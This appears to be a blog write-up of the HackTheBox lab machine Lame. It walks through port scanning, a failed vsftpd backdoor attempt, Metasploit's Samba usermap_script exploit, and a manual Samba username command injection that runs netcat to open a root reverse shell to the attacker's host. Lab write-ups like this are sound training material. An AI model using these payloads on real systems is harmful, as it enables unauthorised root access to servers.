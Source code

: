 ```yaml
---
title: "Walk-through of Lame from HackTheBox"
header:
  teaser: /assets/images/2020-04-05-21-43-26.png
toc: true
toc_sticky: true
excerpt_separator:  <!--more-->
categories:
  - CTF
tags:
  - HTB
  - CTF
  - smbclient
  - Samba
  - Metasploit
  - Linux
---
```


## Machine Information

![Lame](/assets/images/2020-04-05-21-43-26.png)

Lame is a beginner level machine, requiring only one exploit to obtain root access. Skills required are basic knowledge of Linux and enumerating ports and services. Skills learned are identifying vulnerable services and exploiting Samba.

<!--more-->

| Details |  |
| --- | --- |
| Hosting Site | [HackTheBox](https://www.hackthebox.eu/) |
| Link To Machine | [HTB - 001 - Easy - Lame](https://www.hackthebox.eu/home/machines/profile/1) |
| Machine Release Date | 14th March 2017 |
| Date I Completed It | 14th July 2019 |
| Distribution used | Kali 2019.1 – [Release Info](https://www.kali.org/news/kali-linux-2019-1-release/) |

## Method using Meterpreter

### Initial Recon

Check for open ports with Nmap:

```text
root@kali:~/htb/lame# nmap -sS -sC -sV -oA lame -p- -T4 10.10.10.3

Starting Nmap 7.70 ( https://nmap.org ) at 2019-07-16 22:10 BST
Nmap scan report for 10.10.10.3
Host is up (0.037s latency).
Not shown: 65530 filtered ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.14.14
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup:WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup:WORKGROUP)
3632/tcp open  distccd     distccd v1((GNU)4.2.4(Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
Host script results:
|_clock-skew: mean: -2d23h00m43s, deviation: 0s, median: -2d23h00m43s
| smb-os-discovery:
|   OS: Unix (Samba 3.0.20-Debian)
|   NetBIOS computer name:
|   Workgroup: WORKGROUP\x00
|_  System time: 2019-07-13T14:11:05-04:00
|_smb2-time: Protocol negotiation failed (SMB2)
```

Lots of ports open. Has port 21 open with anonymous FTP, but looking around there is nothing obvious.

### Gaining Access

Box is running vsftpd 2.3.4 so check searchsploit for vulnerability:

```text
root@kali:~/htb/lame# searchsploit vsftpd
---------------------------------------------------------------------------------
vsftpd 2.0.5 - 'CWD' (Authenticated) Remote Memory Consumption | exploits/linux/dos/5814.pl
vsftpd 2.0.5 - 'deny_file' Option Remote Denial of Service(1)  | exploits/windows/dos/31818.sh
vsftpd 2.0.5 - 'deny_file' Option Remote Denial of Service(2)  | exploits/windows/dos/31819.pl
vsftpd 2.3.2 - Denial of Service                               | exploits/linux/dos/16270.c
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)         | exploits/unix/remote/17491.rb
---------------------------------------------------------------------------------
```

Last one in above list for backdoor execution looks good. Start Metasploit and load exploit:

```text
root@kali:~/htb/lame# msfconsole
msf5 > search vsftpd 2.3.4
msf5 > use exploit/unix/ftp/vsftpd_234_backdoor
msf5 > show options
msf5 > set RHOST 10.10.10.3
msf5 > exploit
```

No luck, go back to list of services, now try samba on port 445:

```text
root@kali:~/htb/lame# searchsploit samba 3.0.20
---------------------------------------------------------------------------------
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit) | exploits/unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                                            | exploits/linux/remote/7701.txt
---------------------------------------------------------------------------------
```

Remote heap overflow sounds promising, go back in to Metasploit and try it:

```text
root@kali:~/htb/lame# msfconsole
msf5 > search samba 3.0.20
msf5 > use exploit/multi/samba/usermap_script
msf5 > set RHOST 10.10.10.3
msf5 > exploit

[*] Started reverse TCP double handler on 10.10.14.14:4444
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo NKYmctrocnnm8nuo;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "NKYmctrocnnm8nuo\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.10.14.14:4444 -> 10.10.10.3:35080) at 2019-07-16 22:18:10 +0100
```

This works and I now have a reverse shell on to the box.

### User and Root Flags

I have a shell, but need an interactive one to make progress:

```text
msf5 > shell
[*] Trying to find binary(python) on target machine
[*] Found python at /usr/bin/python
[*] Using `python` to pop up an interactive shell
```

Now have interactive shell so get the user flag:

```text
# ls /home
ftp  makis  service  user

# ls /home/makis
user.txt

# cat /home/makis/user.txt
# cat /root/root.txt
```

## Alternative Method (without Meterpreter)

Start a Netcat session listening on my Kali machine:

```text
root@kali:~/htb/lame# nc –lvp 4444
```

Switch to another terminal and use smbclient to connect:

```text
root@kali:~/htb/lame# smbclient //10.10.10.3/tmp
Enter WORKGROUP\root's password:        <--- just press enter
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> logon "./=`nohup nc 10.10.14.22 4444 –e /bin/bash`"
Password:                               <--- just press enter
```

Switch back to Netcat terminal and should have root shell:

```text
# id
uid=0(root) gid=0(root)
```

I can now get the user and root flags, from the paths the same as above.
